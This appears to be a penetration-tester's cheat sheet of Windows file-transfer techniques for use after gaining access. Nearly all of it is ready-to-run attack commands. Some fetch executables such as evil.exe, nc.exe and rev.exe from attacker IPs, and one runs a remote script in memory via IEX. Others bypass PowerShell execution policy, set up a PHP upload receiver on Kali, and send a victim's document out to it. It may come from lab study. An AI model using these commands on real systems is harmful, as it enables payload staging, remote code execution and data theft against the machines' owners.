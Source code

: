 ## 1. Download files using HTTP
Create a Powershell Script and execute it
```powershell 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
		# -ExecutionPolicy Bypass : Bypass restricted execution (by default)
		# -NoLogo : Hide Powershell Logo
		# -NonInteractive : Suppress interactive Poweshell Prompt 
		# -NoProfile : Don't load the default profile
		# -File : Execute the file
```

## 2. Execute a PowerShell script directly in memory
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

## 3. Download a file using powershell
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')   
powershell IWR -uri http://10.10.10.10/nc.exe -OutFile c:\\windows\\temp\\nc.exe
```

## 4. Using CURL and WGET (Windows 10, probably windows 8 and some versions of 7)
```powershell
curl -o c:\Windows\temp\rev.exe http://10.10.10.10:8000/rev.exe
wget http://10.10.10.10.:8000/rev.exe -o c:\Windows\temp\rev.exe
```

## 5. Upload file using PowerShell
A. On Kali, create a PHP script to receive files
```php
<?php
	$uploaddir = '/var/www/uploads/';
	$uploadfile = $uploaddir . $_FILES['file']['name'];
	move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

B. On Kali, Configure a folder
```bash
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
ls -al
```

C. On Windows, execute the powershell script
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```
